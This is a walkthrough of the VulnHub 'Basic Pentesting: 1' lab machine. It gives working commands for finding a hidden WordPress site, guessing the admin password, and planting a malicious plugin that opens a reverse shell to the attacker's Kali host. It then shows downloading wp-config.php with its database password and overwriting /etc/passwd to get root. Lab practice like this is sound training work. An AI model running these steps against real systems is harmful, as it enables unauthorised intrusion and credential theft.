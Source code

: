 # Basic Pentesting: 1
[VulnHub link](https://www.vulnhub.com/entry/basic-pentesting-1,216/)  
By Josiah Pierce  

* After the victim VM has been booted up, we are greeted with a login page that requests for the password of user marlinspike. We attempt a few common passwords such as `password` and `admin`, but we do not manage to login expectedly.
* The IP address of the victim VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the login page, which is `10.0.2.4`. Thus, no nmap scans are needed.
![](/screenshots/Login.jpg)
* From our Kali VM, run `nmap -sS 10.0.2.4`.
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). The scan result is loaded instantly after the command is executed - it is likely that the result was cached. Thus, this means that we can gain entry to the victim VM either via the FTP, SSH or HTTP service.
* We will first have a go with the HTTP service, thus we visit `10.0.2.4` and find a web server running:
![](/screenshots/httpServicePage.jpg)
* Note: Viewing the page source reveals no additional information.
* Note: Some common files and pages which we tried such as /robots.txt, /admin, /login.php are invalid pages as well.
* Though the page said that "no content has been added yet", we will still run our tools to verify if this is really the case: run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put `http://10.0.2.4` into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in `/usr/share/dirbuster/wordlists`. We will use `directory-list-lowercase-2.3-small.txt` for a start. We can stick with the existing 10 threads.
![](/screenshots/dirbusterSettings.jpg)
* While waiting for dirbuster to do its job (it will take a minute or two), we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22: `ssh marlinspike@10.0.2.4 -p 22`. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-admin`, `wp-content`, `wp-includes`, etc.
![](/screenshots/dirbusterResults.jpg)
* With `10.0.2.4/secret`, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly (notice that there is the message "Looking up vtsec at the bottom bar of the browser") and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there was no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`. A very likely reason that the page was loading slowly is that the browser was trying to resolve vtcsec, but was unable to do so eventually.
* Next, we will add an entry (`10.0.2.4 vtcsec`) into the Hosts file in Kali: open (`vim /etc/hosts`) and edit the file, before saving it. What this means is that the IP address of vtcsec is determined by us to be 10.0.2.4, and any  accesses to vtcsec will access 10.0.2.4, instead of trying to find out its IP address from a DNS server.
![](/screenshots/hostsFileEntries.jpg)
* Note: We could also add other mappings such as `10.0.2.4 vtcsec.com`, just in case there might be cases where there is a `.com` domain extension for one of the hyperlinks in the WordPress page, though we have yet to see one so far.
* Reload `10.0.2.4/secret` and volia, we see that the page has been properly loaded. This is because the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There is no interesting content on the site's post, so we head to the Login page of the WordPress site (/wp-login.php) and attempt to login using the username `admin` and a random password. Using a random password allows us to check if an account with the username admin exists. The error message from an invalid login, that "the password you entered for the username admin is incorrect" confirms so. This is a form of information leakage in my opinion on WordPress' part.
* Next, we attempt a quick guess with the password `admin` for the admin account, and access is granted. No kind of bruteforcing is required here.
* Head to the `Plugins` page and install `malicious-wordpress-plugin` by `wetw0rk` [(GitHub link)](https://github.com/wetw0rk/malicious-wordpress-plugin). Once it is installed on the WordPress site, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by cloning and opening the Git repository from our Kali terminal, and execute `python wordpwn.py 10.0.2.15 4000 Y`. The format for the command is `wordpwn.py [LHOST] [LPORT] [HANDLER]`. The IP address is that of the Kali machine.
* The payload is then generated in the `malicious.zip` file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (`GotEm`) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only documentation codes (commented) in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval function.
* Next, we head to `vtcsec/secret/wp-content/plugins/malicous/wetw0rk_maybe.php` on our browser to connect to the reverse shell.
* Heading back to our Kali terminal, we see that a meterpreter session has been opened, and enter `shell`. Executing `whoami`, we see that we are `www-data`. We have now successfully logged into the victim VM. Exit from the shell after this by running `exit`.
* From the reverse shell which we have gotten, we can go up 3 levels of directory to reach one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and password `arootmysqlpass`.
* Side-note: We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` [(GitHub link)](https://github.com/pentestmonkey/unix-privesc-check) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems". Clone the repository to the Kali VM, and run `git checkout 1_x`. We are using this branch's single shell script instead of the method from the master branch.
* On our meterpreter session, cd to `/var/www/html`, which hosts the WordPress page. We will now upload the unix-privesc-check tool to the victim VM: `upload ../unix-privesc-check/unix-privesc-check`.
* Give executable permissions to the script via chmod after running `shell` (interesting, if we were to run `chmod +x unix-privesc-check` before running `shell`, the file ends up having no permissions at all), and then run `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to output.txt, and we exit from shell. Next, run `download output.txt`.
* Alternatively, we can choose to have the result's output to the terminal (and not to redirect the output of the script to an external file), though I find this to be somewhat messy.
* As we see from the instructions at the top of the output file, if there is no string "WARNING" in the file, the script did not find any problems. Our first result from finding WARNING is that `/etc/passwd` can be written by anyone (world write).
![](/screenshots/writeablePasswdFile.jpg)
* Run `download /etc/passwd` from our meterpreter session.
* The first line of /etc/passwd is `root:x:0:0:root:/root:/bin/bash`. We see an `x`, which is a holding place for root's "encrypted password". Traditionally, this field actually stored the user's encrypted password. Modern Unix systems store encrypted passwords in a separate file (the shadow password file) that can be accessed only by privileged users.
* However, we can overwrite the `x` with a hash of a known password.
* Note: Removing the x might seem like an obvious choice to make the root account accessible without any password. However, it does not work here (*find out why!*), and we will still be prompted for a password when we run `su` as shown below.
* Run `openssl passwd -1 pass` (`pass` is our simple password here). `openssl passwd` computes the hash of our password typed at run-time in this case, e.g. `$1$H6IJSTRO$Fcs6RA7D6/wnJM6dK.GSV1` for `pass`. `-1` means the use of MD5 based BSD password algorithm 1.
* Alternatively, if you want to run the openssl command without letting your password be shown in plaintext on the terminal, as well as to confirm your password, run the same command without the last parameter being your password.
* Note: The hash of the password generated by openssl will differ with each run of the command.
* Replace the `x` with our hash value, save the file, and upload the file back to the victim VM: `upload passwd /etc/passwd`.
* Run `shell`, then `su`, but there is an error stating that su must be run from a terminal.
* Execute `python -c 'import pty; pty.spawn("/bin/bash")'` (or `/bin/sh`) to spawn a proper shell, then run `su`. Note: When called without arguments, su defaults to running an interactive shell as `root`.
* Enter our password created above (e.g. `pass`), and we have got root access!

